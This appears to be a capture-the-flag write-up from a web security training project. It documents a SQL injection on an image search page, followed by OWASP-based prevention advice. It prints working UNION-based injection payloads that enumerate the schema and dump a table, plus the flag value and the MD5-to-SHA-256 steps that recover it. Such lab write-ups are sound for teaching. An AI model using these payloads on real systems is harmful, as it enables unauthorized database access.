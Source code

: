 # SQL INJECTION IMAGES

## Flag
```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Discovery
On the page http://{IP_ADDRESS}/index.php?page=searchimg

```diff
# To get the request columns number
1 OR 1=1 UNION SELECT NULL, NULL--
> 2 columns

# To get the images columns names
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
> id, url, title, comment

# To see all images's data
1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
> borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

# Finally "just use this md5 decode lowercase then sha256 to win this flag !"
md5_decrypt('1928e8083cf461a51303633093573c46')
> albatroz
lower('albatroz')
> albatroz
sh256('albatroz')
> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Use
> read sensitive data from the database, \
> modify database data (Insert/Update/Delete), \
> execute administration operations on the database (such as shutdown the DBMS), \
> recover the content of a given file present on the DBMS file system \
> and in some cases issue commands to the operating system

## Prevention
> Use of Prepared Statements (with Parameterized Queries) \
> Use of Stored Procedures \
> Whitelist Input Validation \
> Escaping All User Supplied Input

## Documentation
- [owasp - SQL injection](https://www.owasp.org/index.php/SQL_Injection)
- [owasp - prevent SQL injection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [md5](https://md5decrypt.net/en/)

---

[RETURN](https://github.com/tillderoquefeuil/darkly)